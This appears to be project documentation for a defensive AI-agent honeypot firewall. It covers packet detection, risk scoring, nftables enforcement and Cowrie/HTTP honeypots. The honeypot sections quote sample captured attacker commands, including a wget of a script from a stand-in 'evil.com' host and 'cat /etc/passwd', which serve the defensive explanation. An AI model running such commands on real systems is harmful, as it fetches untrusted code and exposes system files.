

# 🧠 AI Agent Architecture — NO TIME TO HACK (NTTH)

> Complete technical documentation of the Agentic AI pipeline, interconnections, detection mechanisms, and autonomous response system.

---

## Table of Contents

1. [System Overview](#1-system-overview)
2. [High-Level Architecture](#2-high-level-architecture)
3. [The Event Bus — Central Nervous System](#3-the-event-bus--central-nervous-system)
4. [Agent Pipeline — Stage by Stage](#4-agent-pipeline--stage-by-stage)
5. [Detection Layer (IDS)](#5-detection-layer-ids)
6. [AI/ML Anomaly Scoring](#6-aiml-anomaly-scoring)
7. [Risk Calculation Formula](#7-risk-calculation-formula)
8. [Decision Matrix](#8-decision-matrix)
9. [Firewall Enforcement (nftables)](#9-firewall-enforcement-nftables)
10. [Honeypot Integration](#10-honeypot-integration)
11. [Real-Time WebSocket Pipeline](#11-real-time-websocket-pipeline)
12. [Data Flow Diagrams](#12-data-flow-diagrams)
13. [File Reference Map](#13-file-reference-map)
14. [Configuration Reference](#14-configuration-reference)

---

## 1. System Overview

NTTH is an **Adaptive AI-Driven Honeypot Firewall** that uses a pipeline of specialized AI agents to autonomously detect, analyze, decide, enforce, and report on network threats — all in real-time, without human intervention.

### Core Design Philosophy: Agentic AI

Rather than a monolithic security engine, NTTH splits its intelligence into **four specialized agents**, each with a narrow responsibility. They communicate through an asynchronous event bus, forming a **reactive chain**:

```
Packet → Detect → Analyze → Decide → Enforce → Report → UI
```

Each agent operates independently and can be upgraded, replaced, or extended without affecting others.

---

## 2. High-Level Architecture

```
┌──────────────────────────────────────────────────────────────────────────┐
│                         NETWORK (LAN / Hotspot)                        │
│   Phone, Laptops, IoT devices send traffic through the network         │
└───────────────────────────┬──────────────────────────────────────────────┘
                            │ raw packets
                            ▼
┌──────────────────────────────────────────────────────────────────────────┐
│                   PACKET SNIFFER (Scapy AsyncSniffer)                   │
│   File: app/monitor/packet_sniffer.py                                  │
│   • Captures all IP packets on the configured network interface        │
│   • Runs in a background thread via asyncio executor                   │
│   • Calls Feature Extractor for each packet                            │
└───────────────────────────┬──────────────────────────────────────────────┘
                            │ features dict
                            ▼
┌──────────────────────────────────────────────────────────────────────────┐
│                   FEATURE EXTRACTOR                                     │
│   File: app/monitor/feature_extractor.py                               │
│   • Parses: src_ip, dst_ip, dst_port, protocol, pkt_len               │
│   • Detects TCP flags: SYN, ACK, RST, FIN                              │
│   • Filters out: 127.x.x.x, 169.254.x.x, 172.16-31.x.x              │
│   • Output: structured features dict                                   │
└───────────────────────────┬──────────────────────────────────────────────┘
                            │ publish("device_seen", features)
                            ▼
┌──────────────────────────────────────────────────────────────────────────┐
│               ┌─────────────────────────────────────┐                   │
│               │     ASYNC EVENT BUS (pub/sub)       │                   │
│               │  File: app/core/event_bus.py        │                   │
│               │  Queue size: 5000 events            │                   │
│               │                                     │                   │
│               │  Topics:                            │                   │
│               │   • device_seen                     │                   │
│               │   • threat_detected                 │                   │
│               │   • enforcement_action              │                   │
│               │   • report_event                    │                   │
│               └──────────┬──────────────────────────┘                   │
│                          │ fan-out to subscribers                       │
│    ┌─────────────────────┼─────────────────────────────┐               │
│    ▼                     ▼                             ▼               │
│ ┌──────────┐    ┌────────────────┐            ┌──────────────┐        │
│ │ THREAT   │    │ REPORTING      │            │ DEVICE       │        │
│ │ AGENT    │    │ AGENT (ws)     │            │ REGISTRY     │        │
│ └────┬─────┘    └────────────────┘            └──────────────┘        │
│      │                                                                 │
│      │ publish("threat_detected")                                     │
│      ▼                                                                 │
│ ┌──────────┐                                                          │
│ │ DECISION │                                                          │
│ │ AGENT    │                                                          │
│ └────┬─────┘                                                          │
│      │ publish("enforcement_action")                                  │
│      ▼                                                                 │
│ ┌──────────────┐                                                      │
│ │ ENFORCEMENT  │──→ nftables (block/redirect/rate_limit)              │
│ │ AGENT        │──→ Cowrie SSH Honeypot                               │
│ └──────┬───────┘                                                      │
│        │ publish("report_event")                                      │
│        ▼                                                               │
│ ┌──────────────┐                                                      │
│ │ REPORTING    │──→ PostgreSQL (persist)                               │
│ │ AGENT        │──→ WebSocket (live broadcast to UI)                  │
│ └──────────────┘                                                      │
└──────────────────────────────────────────────────────────────────────────┘
                            │ WebSocket
                            ▼
┌──────────────────────────────────────────────────────────────────────────┐
│                   FLUTTER DASHBOARD (Web / Android)                     │
│   • Threat Map with real-time attack visualization                     │
│   • Firewall Rules with live containment status                        │
│   • Honeypot Sessions with captured commands                           │
│   • Network Topology with device discovery                             │
└──────────────────────────────────────────────────────────────────────────┘
```

---

## 3. The Event Bus — Central Nervous System

**File:** `backend/app/core/event_bus.py`

The Event Bus is the backbone that connects all agents. It is a lightweight **async pub/sub queue** built on `asyncio.Queue`.

### How It Works

```python
# Publishing an event (non-blocking)
await event_bus.publish("device_seen", features_dict)

# Subscribing a handler (at import time)
event_bus.subscribe("device_seen", _handle_device_seen)
```

### Event Topics

| Topic | Publisher | Subscriber(s) | Payload |
|-------|----------|---------------|---------|
| `device_seen` | Packet Sniffer | Threat Agent, Reporting Agent, Device Registry | Raw packet features |
| `threat_detected` | Threat Agent | Decision Agent | Features + risk score + GeoIP |
| `enforcement_action` | Decision Agent | Enforcement Agent | Action + incident context |
| `report_event` | Enforcement Agent, Session Logger | Reporting Agent | Full event for DB + WebSocket |

### Event Flow (Sequential)



---

## 4. Agent Pipeline — Stage by Stage

### 🛡️ Stage 1: Threat Agent

**File:** `backend/app/agents/threat_agent.py`
**Subscribes to:** `device_seen`
**Publishes:** `threat_detected`

The Threat Agent is the **first brain** in the pipeline. For every captured packet, it:

1. **Updates the Device Registry** — tracks packet counts, SYN counts, unique ports per IP
2. **Runs the Rule Engine** — signature-based detection (port scan, SYN flood, brute force)
3. **Runs the ML Anomaly Model** — Isolation Forest-based anomaly detection
4. **Calculates Risk Score** — weighted combination: `risk = 0.6 × rule_score + 0.4 × ml_score`
5. **Filters non-threats** — only publishes if action ≠ "allow" (risk > 0.15)
6. **Enriches with GeoIP** — city, country, ASN, org, lat/lon from MaxMind

**Output payload includes:**
```json
{
  "src_ip": "10.142.204.88",
  "dst_ip": "10.142.204.241",
  "dst_port": 22,
  "protocol": "tcp",
  "rule_score": 1.0,
  "ml_score": 0.42,
  "risk_score": 0.768,
  "action": "honeypot",
  "threat_type": "port_scan",
  "country": "India",
  "city": "Bangalore",
  "org": "Jio",
  "device_state": { "packet_count": 150, "syn_count": 45, "unique_ports": 12 }
}
```

---

### 🧠 Stage 2: Decision Agent

**File:** `backend/app/agents/decision_agent.py`
**Subscribes to:** `threat_detected`
**Publishes:** `enforcement_action`

The Decision Agent is the **strategic brain**. It takes the risk assessment and makes tactical decisions:

1. **Validates source** — never acts on the gateway IP
2. **Deduplicates** — skips if same (src_ip, victim_ip, threat_type) was decided < 2 seconds ago
3. **Determines network origin** — `internal_lan`, `cloud_vps_or_hosting`, or `public_internet`
4. **Generates location summary** — human-readable location from GeoIP
5. **Chooses response action:**

| Protocol | Port | Action | Target |
|----------|------|--------|--------|
| TCP | 21, 22, 23, 3389, 5900 | `honeypot` | Cowrie SSH (port 2222) |
| TCP | Other ports | `honeypot` | HTTP Honeypot (port 8888) |
| UDP | High risk | `block` | Drop all traffic |
| UDP | Medium risk | `rate_limit` | Throttle traffic |

6. **Builds incident context** — a rich metadata object attached to every enforcement action:
```json
{
  "source_tag": "attacker::10-142-204-88",
  "victim_ip": "10.142.204.241",
  "network_origin": "internal_lan",
  "location_accuracy": "approximate",
  "location_summary": "Approximate: India via Jio",
  "response_mode": "redirect_and_hide_target",
  "quarantine_target": true,
  "target_hidden": true,
  "honeypot_port": 2222,
  "tracked_commands": true,
  "response_priority": "aggressive"
}
```

---

### ⚡ Stage 3: Enforcement Agent

**File:** `backend/app/agents/enforcement_agent.py`
**Subscribes to:** `enforcement_action`
**Publishes:** `report_event`

The Enforcement Agent is the **executor**. It translates decisions into real network actions:

1. **Immediately publishes `report_event`** — ensures the threat is reported even if enforcement fails
2. **Checks if firewall is enabled** — respects `FIREWALL_ENABLED` setting
3. **Prevents duplicate rules** — checks if an active rule already exists for this IP+type combination
4. **Applies the action:**

| Action | What Happens | nftables Command |
|--------|-------------|-----------------|
| `rate_limit` | Throttle to 10 packets/sec | `nft add rule ... limit rate 10/second` |
| `honeypot` | Redirect to deception service | `nft add rule ... dnat to 127.0.0.1:<honeypot_port>` |
| `block` | Drop all packets from IP | `nft add rule ... drop` |

5. **Registers redirect context** — when redirecting to honeypot, stores attacker IP → victim IP mapping so Cowrie sessions can be correlated later
6. **Auto-starts Cowrie** — ensures the SSH honeypot is running when redirection is needed

---

### 📊 Stage 4: Reporting Agent

**File:** `backend/app/agents/reporting_agent.py`
**Subscribes to:** `report_event`, `device_seen`
**Publishes:** WebSocket broadcasts

The Reporting Agent is the **communicator**. It persists data and notifies the UI:

1. **Identifies victim device** — checks if the target IP is a managed asset
2. **Updates device risk** — adjusts the risk score on the victim device record
3. **Creates threat event** — `INSERT INTO threat_events` with all fields (IP, port, protocol, threat type, risk score, GeoIP, incident notes)
4. **Broadcasts 3 WebSocket messages:**

| Message Type | Purpose | Received By |
|---|---|---|
| `threat` | Full threat event with all fields | Threat Map screen |
| `device_updated` | Risk score update for a device | Devices screen |
| `incident_response` | Response summary | Firewall screen |

5. **Forwards ARP discoveries** — when the network scanner finds a new device, broadcasts `device_seen` to the topology screen

---

## 5. Detection Layer (IDS)

### Rule Engine

**File:** `backend/app/ids/rule_engine.py`

Three signature-based detectors run on every packet:

#### Port Scan Detector
- **How it works:** Tracks unique destination ports per source IP in a sliding window
- **Window:** 15 seconds
- **Threshold:** 4 unique ports → `rule_score = 1.0` (port_scan detected)
- **Below threshold:** proportional score `min(unique_ports / 4, 0.8)`
- **Data structure:** `dict[str, Deque[tuple[float, int]]]` — IP → (timestamp, port)

#### SYN Flood Detector
- **How it works:** Counts SYN packets per source IP per second
- **Window:** 1 second
- **Threshold:** 30 SYN/sec → `rule_score = 1.0` (syn_flood detected)
- **Below threshold:** proportional score `min(rate / 30, 0.8)`
- **Data structure:** `dict[str, Deque[float]]` — IP → timestamps

#### Brute Force Detector
- **How it works:** Counts connection attempts to authentication ports per source IP
- **Window:** 120 seconds
- **Threshold:** 3 attempts → `rule_score = 1.0` (brute_force detected)
- **Auth ports:** 21, 22, 23, 80, 443, 2222, 3306, 3389, 5432, 5900, 8080, 8888, 30022
- **Data structure:** `dict[str, Deque[float]]` — IP → timestamps

### Evaluation Result

The rule engine returns the **maximum score** across all detectors:

```python
rule_score = max(port_score, syn_score, brute_score)
```

And classifies the threat type:
- `rule_score >= 0.9` → `port_scan` / `syn_flood` / `brute_force`
- `0 < rule_score < 0.9` → `suspicious`
- `rule_score == 0` → `normal`

---

## 6. AI/ML Anomaly Scoring

**File:** `backend/app/ids/anomaly_model.py`

### Isolation Forest

NTTH uses an **Isolation Forest** model from scikit-learn for unsupervised anomaly detection.

#### Feature Vector (6 dimensions)
```python
[
    packet_length,        # Size of the packet in bytes
    destination_port,     # Target port number
    is_syn_flag,          # 1.0 if SYN, 0.0 otherwise
    is_ack_flag,          # 1.0 if ACK, 0.0 otherwise
    is_rst_flag,          # 1.0 if RST, 0.0 otherwise
    protocol_encoded,     # tcp=1.0, udp=2.0, icmp=3.0, other=0.0
]
```

#### Training Pipeline

1. **Buffer phase:** First 500 packets are accumulated as baseline training data
2. **Training:** Once 500 samples collected, Isolation Forest trains:
   - `n_estimators = 200` (200 decision trees)
   - `contamination = 0.05` (assumes 5% of baseline is anomalous)
   - Model saved to `./models/isolation_forest.joblib`
3. **Scoring:** After training, each new packet gets an anomaly score:
   - `decision_function()` returns how isolated the point is
   - Mapped to `[0.0, 1.0]` where 1.0 = highly anomalous

#### Why This Works

The Isolation Forest learns what "normal" network traffic looks like on YOUR specific network. Any traffic pattern that deviates from normal (unusual ports, unusual packet sizes, unusual flag combinations) gets a higher anomaly score. This catches zero-day attacks that signature-based rules cannot detect.

---

## 7. Risk Calculation Formula

**File:** `backend/app/ids/risk_calculator.py`

```
risk_score = 0.6 × rule_score + 0.4 × ml_score
```

| Weight | Source | Rationale |
|--------|--------|-----------|
| 60% | Rule Engine | Known attack patterns are reliable |
| 40% | ML Model | Catches unknown/novel attack patterns |

### Action Thresholds

| Risk Score | Action | Description |
|-----------|--------|-------------|
| < 0.15 | `allow` | Normal traffic, no action |
| 0.15 – 0.25 | `log` | Suspicious, log only |
| 0.25 – 0.40 | `rate_limit` | Apply traffic throttling |
| 0.40 – 0.80 | `honeypot` | Redirect to deception service |
| ≥ 0.80 | `block` | Drop all traffic from source |

---

## 8. Decision Matrix

```
                          Risk Score
    0.0    0.15    0.25     0.40           0.80     1.0
     │      │       │        │              │       │
     │ALLOW │  LOG  │THROTTLE│   HONEYPOT   │ BLOCK │
     │      │       │        │              │       │
     └──────┴───────┴────────┴──────────────┴───────┘

     TCP + SSH-like port → Redirect to Cowrie (port 2222)
     TCP + other port    → Redirect to HTTP honeypot (port 8888)
     UDP + high risk     → BLOCK (drop all)
     UDP + medium risk   → RATE LIMIT (throttle)
```

---

## 9. Firewall Enforcement (nftables)

**File:** `backend/app/firewall/nft_manager.py`

The NFT Manager interfaces directly with the Linux kernel's nftables framework:

### Rule Types

| Type | nftables Command | Effect |
|------|-----------------|--------|
| **Block** | `nft add rule inet ntth_filter ntth_input ip saddr <IP> drop` | Silently drops all packets |
| **Rate Limit** | `nft add rule inet ntth_filter ntth_input ip saddr <IP> limit rate 10/second accept` | Allows 10 pkt/s, drops excess |
| **Redirect** | `nft add rule ip nat prerouting ip saddr <IP> ip daddr <victim> tcp dport <port> dnat to 127.0.0.1:<honeypot>` | Transparently sends attacker to honeypot |

### Rule Lifecycle

1. **Created** by the Enforcement Agent
2. **Tracked** in PostgreSQL with `nft_handle`, `is_active`, `expires_at`
3. **Auto-expire** after TTL (default 1 hour)
4. **Cleanup** runs periodically to remove expired rules from nftables and mark them inactive in DB
5. **Emergency flush** available via Admin API to remove all rules instantly

**Files:**
- `app/firewall/nft_manager.py` — nftables subprocess interface
- `app/firewall/rule_tracker.py` — DB-backed rule deduplication
- `app/firewall/rule_cleanup.py` — periodic expired rule removal

---

## 10. Honeypot Integration

### SSH Honeypot (Cowrie)

**Container:** `ntth_cowrie` (Docker image: `cowrie/cowrie`)
**External port:** 30022 → Internal port: 2222

Cowrie is a medium-interaction SSH honeypot that:
- Accepts any username/password combination
- Simulates a Linux filesystem
- Logs all commands typed by the attacker
- Tracks file downloads (e.g., `wget http://evil.com/malware.sh`)
- Records session duration

### Cowrie Log Watcher

**File:** `backend/app/honeypot/cowrie_watcher.py`

A background task that **tails** `cowrie.json` in real-time:

```
Cowrie Container → writes JSON log → /cowrie/cowrie-git/var/log/cowrie/cowrie.json
                                    ↓ (Docker volume mount)
Backend Container → reads from     → /cowrie_logs/cowrie.json
                                    ↓ (cowrie_watcher.py tail -f)
                                    ↓ parse JSON events
         ┌──────────────────────────┴───────────────────────┐
         │ cowrie.login.success  → log_cowrie_session()      │
         │ cowrie.login.failed   → log_cowrie_session()      │
         │ cowrie.command.input  → log_cowrie_session()      │
         │ cowrie.session.closed → _close_cowrie_session()   │
         └──────────────────────────────────────────────────┘
```

### Session Logger

**File:** `backend/app/honeypot/session_logger.py`

Processes Cowrie events and:
1. **Resolves redirect context** — maps Docker NAT IP (172.18.0.1) back to the real attacker
2. **GeoIP lookup** — enriches with country, city, ASN, org
3. **Upserts to DB** — creates or updates `honeypot_sessions` table
4. **Publishes `report_event`** — creates a high-risk (0.98) threat event
5. **Broadcasts via WebSocket** — sends session details to the Honeypot screen

### HTTP Honeypot

**Built-in to the backend** (port 8888)
**File:** `backend/app/honeypot/http_honeypot.py`

A lightweight fake web server that:
- Responds to common attack paths: `/admin`, `/wp-login.php`, `/.env`, `/phpmyadmin`
- Logs the attacker's IP, method, path, and request body
- Creates honeypot sessions with type `http`

---

## 11. Real-Time WebSocket Pipeline

**File:** `backend/app/websocket/live_updates.py`

### Connection Flow

```
Flutter App → ws://host:8000/ws/live?token=JWT → Backend WebSocket Handler
```

### Message Types Broadcast

| Type | When | Data |
|------|------|------|
| `threat` | New threat detected | Full threat event with GeoIP, risk, action |
| `honeypot_session` | New/updated honeypot session | Attacker IP, commands, duration |
| `incident_response` | Enforcement action taken | Action summary, response mode |
| `device_seen` | Network scanner finds device | IP, MAC, hostname, vendor |
| `device_updated` | Device risk changes | IP, new risk score |
| `firewall_rule_changed` | Rule created/expired | Rule details |

### Flutter WebSocket Service

**File:** `flutter_app/lib/core/websocket_service.dart`

The Flutter app maintains a persistent WebSocket connection:
- Auto-reconnects on disconnect
- Stores latest events in-memory
- Notifies all listening screens via `ChangeNotifier`
- Each screen listens for specific message types

---

## 12. Data Flow Diagrams

### Attack Detection Flow (e.g., nmap from phone)

```
Phone (10.142.204.88)
    │
    │ SYN packets to ports 22, 80, 443, 8080, 8888
    ▼
Network Interface (wlp0s20f3)
    │
    │ Scapy AsyncSniffer captures packet
    ▼
Feature Extractor
    │ {src_ip: "10.142.204.88", dst_port: 80, is_syn: true, protocol: "tcp"}
    ▼
Event Bus → "device_seen"
    │
    ▼
Threat Agent
    │ Rule Engine: port_scan detected (5 unique ports > threshold 4)
    │ ML Model: anomaly_score = 0.35
    │ Risk: 0.6 × 1.0 + 0.4 × 0.35 = 0.74
    │ Action: honeypot (0.74 > 0.40 threshold)
    ▼
Event Bus → "threat_detected"
    │
    ▼
Decision Agent
    │ Choose: redirect TCP → HTTP honeypot (port 8888)
    │ Network origin: internal_lan
    │ Build incident context
    ▼
Event Bus → "enforcement_action"
    │
    ▼
Enforcement Agent
    │ nft add rule ip nat prerouting ip saddr 10.142.204.88 ... dnat to 127.0.0.1:8888
    │ Register redirect context
    ▼
Event Bus → "report_event"
    │
    ▼
Reporting Agent
    │ INSERT INTO threat_events (src_ip, risk_score, action_taken, ...)
    │ WebSocket broadcast {type: "threat", src_ip: "10.142.204.88", risk: 0.74, ...}
    ▼
Flutter Dashboard
    │ Threat Map: shows "10.142.204.88 ● LIVE — Risk 74%"
    │ Firewall: shows "REDIRECT 10.142.204.88 → honeypot:8888 ● NEW"
```

### SSH Honeypot Session Flow

```
Attacker SSHs to port 30022
    │
    │ Docker NAT: 10.142.204.88:random → 172.18.0.1:random → Cowrie:2222
    ▼
Cowrie SSH Honeypot
    │ Accepts login (any password)
    │ Logs: login, commands, file downloads
    │ Writes to: /cowrie/cowrie-git/var/log/cowrie/cowrie.json
    ▼
Cowrie Watcher (tail -f cowrie.json)
    │ Detects: cowrie.login.success, cowrie.command.input
    ▼
Session Logger
    │ Resolves Docker NAT → real attacker IP (via redirect context)
    │ GeoIP lookup
    │ Upsert to honeypot_sessions table
    │ Creates threat event (risk_score: 0.98)
    ▼
WebSocket Broadcast
    │ {type: "honeypot_session", attacker_ip: "10.142.204.88",
    │  commands: ["whoami", "cat /etc/passwd", "wget http://evil.com/malware.sh"],
    │  duration: 97.5, username: "root", ...}
    ▼
Flutter Dashboard
    │ Honeypot screen: shows session with terminal-style command display
    │ Threat Map: shows high-risk (98%) honeypot event
```

---

## 13. File Reference Map

### Agents
| File | Role |
|------|------|
| `app/agents/threat_agent.py` | Evaluates packets, calculates risk, enriches with GeoIP |
| `app/agents/decision_agent.py` | Decides action (block/honeypot/rate_limit), builds context |
| `app/agents/enforcement_agent.py` | Applies nftables rules, registers redirect contexts |
| `app/agents/reporting_agent.py` | Persists to DB, broadcasts via WebSocket |

### IDS / AI
| File | Role |
|------|------|
| `app/ids/rule_engine.py` | Port scan, SYN flood, brute force detection |
| `app/ids/anomaly_model.py` | Isolation Forest ML anomaly scorer |
| `app/ids/risk_calculator.py` | Weighted risk formula + action thresholds |
| `app/ids/threshold_config.py` | Configurable detection thresholds |

### Monitoring
| File | Role |
|------|------|
| `app/monitor/packet_sniffer.py` | Scapy AsyncSniffer on network interface |
| `app/monitor/feature_extractor.py` | Packet → features dict |
| `app/monitor/device_registry.py` | In-memory per-IP stats (packets, ports, SYNs) |
| `app/monitor/network_scanner.py` | ARP scanning for device discovery |

### Firewall
| File | Role |
|------|------|
| `app/firewall/nft_manager.py` | nftables subprocess control |
| `app/firewall/rule_tracker.py` | DB-backed rule deduplication |
| `app/firewall/rule_cleanup.py` | Scheduled expired rule removal |

### Honeypot
| File | Role |
|------|------|
| `app/honeypot/cowrie_watcher.py` | Tails Cowrie JSON log |
| `app/honeypot/session_logger.py` | Processes and stores honeypot sessions |
| `app/honeypot/http_honeypot.py` | Built-in HTTP honeypot server |
| `app/honeypot/cowrie_controller.py` | Docker API to start/stop Cowrie |

### Core
| File | Role |
|------|------|
| `app/core/event_bus.py` | Async pub/sub queue (5000 capacity) |
| `app/core/logger.py` | Structured JSON logging |
| `app/config.py` | All settings with defaults |
| `app/main.py` | FastAPI app startup, agent registration |

### Frontend (Flutter)
| File | Role |
|------|------|
| `lib/core/websocket_service.dart` | Persistent WebSocket with auto-reconnect |
| `lib/core/auth_service.dart` | JWT authentication + HTTP client |
| `lib/screens/threat_map_screen.dart` | Live threat map with LIVE/RECENT badges |
| `lib/screens/firewall_screen.dart` | Firewall rules with NEW/EXPIRED badges |
| `lib/screens/honeypot_screen.dart` | Honeypot sessions with command terminal |
| `lib/screens/topology_screen.dart` | Network device discovery |
| `lib/screens/dashboard_screen.dart` | Overview dashboard |

---

## 14. Configuration Reference

**File:** `backend/app/config.py` (via environment variables or `.env`)

### IDS Thresholds

| Setting | Default | Description |
|---------|---------|-------------|
| `RISK_LOG_THRESHOLD` | 0.15 | Minimum risk to log |
| `RISK_RATE_LIMIT_THRESHOLD` | 0.25 | Minimum risk to throttle |
| `RISK_HONEYPOT_THRESHOLD` | 0.40 | Minimum risk to redirect to honeypot |
| `RISK_BLOCK_THRESHOLD` | 0.80 | Minimum risk to block completely |
| `PORT_SCAN_WINDOW_SECONDS` | 15 | Time window for port scan detection |
| `PORT_SCAN_UNIQUE_PORTS` | 4 | Unique ports to trigger port scan |
| `SYN_FLOOD_PER_SECOND` | 30 | SYN/sec to trigger flood detection |
| `BRUTE_FORCE_WINDOW_SECONDS` | 120 | Time window for brute force detection |
| `BRUTE_FORCE_ATTEMPTS` | 3 | Attempts to trigger brute force alert |

### Network

| Setting | Default | Description |
|---------|---------|-------------|
| `NETWORK_INTERFACE` | eth0 | Interface to sniff on |
| `GATEWAY_IP` | 192.168.1.1 | Never block this IP |
| `FIREWALL_ENABLED` | true | Enable nftables enforcement |
| `FIREWALL_RULE_TTL_SECONDS` | 3600 | Auto-expire rules after 1 hour |

### Honeypot

| Setting | Default | Description |
|---------|---------|-------------|
| `COWRIE_LOG_PATH` | /cowrie_logs/cowrie.json | Path to Cowrie JSON log |
| `COWRIE_REDIRECT_PORT` | 2222 | Internal Cowrie SSH port |
| `HTTP_HONEYPOT_PORT` | 8888 | HTTP honeypot port |

---

## Summary

NTTH's AI agent pipeline creates a **closed-loop autonomous defense system**:

1. **DETECT** — Packet sniffer + Feature extractor → raw network intelligence
2. **ANALYZE** — Rule engine (signatures) + ML model (anomalies) → risk score
3. **DECIDE** — Decision agent → action + incident context
4. **ENFORCE** — nftables + Cowrie/HTTP honeypot → real network defense
5. **REPORT** — PostgreSQL persistence + WebSocket → real-time dashboard
6. **CAPTURE** — Honeypot sessions log attacker commands, credentials, duration

All of this happens **autonomously in real-time** — from first packet to UI notification in milliseconds.
